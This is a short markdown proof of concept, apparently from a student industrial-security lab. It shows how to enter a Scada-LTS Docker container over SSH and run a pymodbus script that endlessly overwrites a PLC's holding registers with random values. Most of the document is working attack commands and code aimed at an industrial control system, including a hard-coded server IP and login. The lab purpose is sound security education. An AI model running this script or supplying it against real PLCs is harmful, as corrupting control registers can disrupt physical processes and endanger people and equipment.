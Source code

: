 # Change modbus registers Proof of concept vulnerability
Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

The registers should now start being overwritten with random data.

![](img/random_modbus.png)

![](img/scada_poc1.jpg)

![](img/scada_poc2.jpg)
